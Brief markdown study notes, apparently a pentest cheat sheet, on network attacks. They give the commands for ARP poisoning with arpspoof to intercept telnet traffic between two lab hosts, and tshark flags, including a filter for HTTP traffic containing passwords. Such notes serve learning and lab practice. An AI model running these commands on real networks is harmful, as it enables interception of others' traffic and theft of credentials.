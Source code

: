 
# Overview
A network based attack deals with protocols traversing the network and not stuff related to the operating system of a host.

# Man in the Middle
## Arp Poisoning

Turn on ip forwarding
`echo 1 > /proc/sys/net/ipv4/ip_forward`

Spoof that you are .37 to the .36 machine
```bash
arpspoof -i eth1 -t 10.100.13.37 -r 10.100.13.36
```
Record traffic with Wireshark to intercept telnet


# Tools
## tshark
Terminal tool like wireshark for scripting with pcaps
- -D : to list interfaces
- -i : run on interface
- -r fipe.pcap : view pcap
- `-Y 'ip.src==192.168.23.2'` : filter
- -Y 'http contains password'